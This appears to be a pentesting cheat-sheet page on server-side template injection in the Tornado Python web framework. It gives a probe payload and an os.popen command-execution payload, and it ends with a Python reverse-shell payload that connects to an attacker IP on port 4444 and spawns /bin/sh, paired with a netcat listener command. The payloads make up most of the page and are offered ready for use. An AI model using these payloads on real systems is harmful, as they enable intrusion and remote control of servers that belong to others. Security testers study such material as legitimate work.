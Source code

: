 ```yaml
---
title: Tornado Pentesting
description: Tornado is a Python web server and web application framework.
tags:
    - Web
refs:
    - https://ajinabraham.com/blog/server-side-template-injection-in-tornado
date: 2023-05-28
draft: false
---
```


## Server-Side Template Injection (SSTI)

We can execute arbitrary Python script using the server-site template injection.  
First check if the script will be executed as below.  

```bash
<title>Website by {{ 2*3 }}</title>
<span>{{ 2*3 }}</span>

# URL parameters
https://example.com/?q={{2*3}}
```

If the website shows **`6`**  instead of **`2*3`**, we can execute arbitrary code.  
Try following payloads.

```bash
{% import os %}{{ os.popen("whoami").read() }}

# Reverse shell. Replace "10.0.0.1" with your own ip 
# It requires a listener like `nc -lvnp 4444` in local terminal.
{% import socket,subprocess,os %}{{ s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]) }}
```
